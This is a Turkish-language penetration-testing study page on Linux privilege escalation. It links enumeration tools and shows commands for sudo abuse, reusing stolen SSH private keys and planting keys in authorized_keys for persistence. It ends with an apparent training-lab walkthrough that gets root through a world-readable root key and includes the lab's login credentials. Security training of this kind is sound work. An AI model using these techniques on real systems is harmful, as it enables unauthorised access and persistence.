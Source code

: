 ```yaml
---
glightbox: true
icon: material/help
---
```


# Privilege Escalation

Uzak bir sunucuya ilk erişim genellikle düşük ayrıcalıklı bir kullanıcı bağlamında olur. Tam erişim elde etmek için ayrıcalıklar kök kullanıcısına yükseltilmelidir. Bunun için dahili/yerel bir güvenlik açığı bulmak gerekebilir.

## PrivEsc Checklist

* [HackTricks](https://book.hacktricks.xyz/welcome/readme)
* [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)

## Enumeration Scripts

* [LinEnum](https://github.com/rebootuser/LinEnum)
* [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)
* [Seatbelt](https://github.com/GhostPack/Seatbelt)
* [JAWS](https://github.com/411Hall/JAWS)
* [PEASS](https://github.com/carlospolop/PEASS-ng)

## Kernel Exploits

Eski bir işletim sistemi çalıştıran bir sunucuyla karşılaştığımızda potansiyel kernel açıklarını aramalıyız. Sunucunun bakımının yapılmadığını varsayalım. Bu durumda sunucunun kernel açıklarına karşı savunmasız olması muhtemeldir. Kernel istismarları sistem kararsızlığına neden olabilir. Bu istismarları laboratuvar ortamında denemek ve yalnızca müşterinin açık onayı ve koordinasyonu ile çalıştırmak gerekir.

## Vulnerable Software

Sistemde yüklü yazılımlar için istismarlar aranmalıdır.

## User Privileges

Linux `sudo` komutu, kullanıcının farklı bir kullanıcı olarak komut yürütmesine olanak tanır. Aşağıdaki komut ile `sudo` ayrıcalıkları kontrol edilebilir:

```bash
sudo -l
```

Herhangi bir komut başka bir kullanıcı olarak çalıştırılabilir:

```bash
sudo -u john /bin/echo Hello World!
```

Aşağıda verilen sayfalar ayrıcalık yükseltmek amacıyla kullanılan bazı faydalı komutları/uygulamaları içerir:

* [GTFOBins](https://gtfobins.github.io/)
* [LOLBAS](https://lolbas-project.github.io)

## Exposed Credentials

Kimlik bilgilerini açığa çıkarmak için yapılandırma dosyalarına, log dosyalarına ve komut geçmişi dosyalarına bakılabilir.

## SSH Keys

Belirli bir kullanıcı için `.ssh` dizinini okuma yetkimiz olsun. Bu durumda dizinde bulunan özel SSH anahtarı oturum açmak için kullanılabilir.

Gizli anahtarın izin bilgisini değiştir:

```bash
chmod 600 ~/.ssh/id_rsa
```

Gizli anahtarı kullanarak SSH bağlantısı gerçekleştir:

```bash
ssh user@10.10.10.10 -i ~/.ssh/id_rsa
```

Belirli bir kullanıcı için `.ssh` dizinine yazma yetkimiz olsun. Bu durumda kendi üreteceğimiz bir açık anahtarı dizinde bulunan `authorized_keys` dosyasına yerleştirebiliriz. Bu teknik, shell erişimi kazandıktan sonra SSH erişimi elde etmek için kullanılır. Mevcut SSH yapılandırması diğer kullanıcılar tarafından yazılan anahtarları kabul etmeyecektir.

Öncelikle yeni bir anahtar çifti oluşturmalıyız:

```bash
ssh-keygen -f Key
```

Bu komut iki adet dosya üretecektir:

1. Key
2. Key.pub

Key.pub anahtarı uzak makinedeki `authorized_keys` dosyasına kopyalanmalıdır:

```bash
cat Key.pub >> ~/.ssh/authorized_keys
```

Bu sayede uzak sunucu özel anahtarımızı kullanarak oturum açmamıza izin verecektir.

Gizli anahtarın izin bilgisini değiştir:

```bash
chmod 600 Key
```

Gizli anahtarı kullanarak SSH bağlantısı gerçekleştir:

```bash
ssh user@10.10.10.10 -i Key
```

## Questions

```text
SSH into the server above with the provided credentials, and use the '-p xxxxxx' to specify the port shown above. Once you login, try to find a way to move to 'user2', to get the flag in '/home/user2/flag.txt'.
```

??? tip "Steps"

    SSH bağlantısı gerçekleştirmek için user1 kullanıcısını kullan (parola olarak `password1` kullan):

    ```bash
    ssh user1@94.237.53.58 -p 30018
    ```

    Ardından aşağıdaki komutu çalıştır:

    ```bash
    sudo -l
    ```

    ```text title="Output"
    Matching Defaults entries for user1 on ng-954801-gettingstartedprivesc-kwfvw-5d9799dc6d-dwnb4:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User user1 may run the following commands on ng-954801-gettingstartedprivesc-kwfvw-5d9799dc6d-dwnb4:
        (user2 : user2) NOPASSWD: /bin/bash
    ```

    Çıktıda görüldüğü üzere user2 kullanıcısı parola kullanmadan Bash shell çalıştırabiliyor. Bu bilgiden hareketle user2 kullanıcısına geçiş yap:

    ```bash
    sudo -u user2 /bin/bash
    ```

    Flag dosyasının içeriğini görüntüle:

    ```bash
    cat /home/user2/flag.txt
    ```

```text
Once you gain access to 'user2', try to find a way to escalate your privileges to root, to get the flag in '/root/flag.txt'.
```

??? tip "Steps"

    Aşağıdaki komutu user2 kullanıcısı olarak çalıştır:

    ```bash
    ls -al /root/.ssh
    ```

    ```text title="Output"
    total 20
    drwxr-x--- 1 root user2 4096 Feb 12  2021 .
    drwxr-x--- 1 root user2 4096 Feb 12  2021 ..
    -rw------- 1 root root   571 Feb 12  2021 authorized_keys
    -rw-r--r-- 1 root root  2602 Feb 12  2021 id_rsa
    -rw-r--r-- 1 root root   571 Feb 12  2021 id_rsa.pub
    ```

    Çıktıda görüldüğü üzere `root` kullanıcısına ait özel anahtar herkes tarafından okunabilir durumdadır. Bu dosyanın içeriğini kopyala ve ardından mevcut SSH bağlantısını sonlandır.

    Kopyaladığın özel anahtar bilgisini yerel makinede yeni bir dosyaya kaydet. Bunu yaparken dosya satır sınırlayıcısının LF formatında olduğundan ve dosya sonunda boş bir satır olduğundan emin ol!

    Gizli anahtarın izin bilgisini değiştir:

    ```bash
    chmod 600 private_key_file
    ```

    Gizli anahtarı kullanarak SSH bağlantısı gerçekleştir:

    ```bash
    ssh root@94.237.53.58 -p 30018 -i private_key_file
    ```

    Cevabı elde etmek için soruda belirtilen dosyanın içeriğini görüntüle:

    ```bash
    cat /root/flag.txt
    ```
